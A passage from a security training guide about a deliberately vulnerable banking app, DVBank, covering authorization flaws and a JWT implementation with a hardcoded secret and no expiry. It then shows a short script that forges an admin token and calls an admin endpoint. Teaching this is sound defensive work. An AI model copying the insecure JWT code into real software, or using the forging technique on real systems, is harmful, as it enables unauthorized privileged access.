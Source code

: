 ### Common Authorization Vulnerabilities
Authorization vulnerabilities can lead to unauthorized access and privilege escalation. Watch for these issues:

1. **Missing Access Controls**
   - Endpoints without proper role checks
   - Missing ownership validation on resources
   - Insecure direct object references (IDOR)

2. **Privilege Escalation**
   - Vertical escalation (user → admin)
   - Horizontal escalation (user → another user)
   - Role manipulation through parameter tampering

## DVBank Authentication Vulnerabilities
Let's examine real authentication vulnerabilities present in the DVBank application. Understanding these issues helps identify similar problems in other applications.

### 1. JWT Implementation Issues
**Location**: `backend/routes/auth_routes.py`
```python
# Vulnerable JWT implementation
token = jwt.encode(
    {'user_id': user.id},
    'secret',  # Hardcoded secret
    algorithm='HS256'  # Weak algorithm
)

# Missing:
# - Token expiration
# - Algorithm enforcement
# - Secret key rotation
```

**Impact**:
- Tokens can be forged using known secret
- Tokens never expire, remaining valid indefinitely
- Algorithm confusion attacks possible through header manipulation

**Exploitation**:
```python
import jwt

# Create forged token
forged_token = jwt.encode(
    {'user_id': 1},  # Admin user ID
    'secret',
    algorithm='HS256'
)

# Use in requests
headers = {'Authorization': f'Bearer {forged_token}'}
response = requests.get('/api/admin', headers=headers)
```
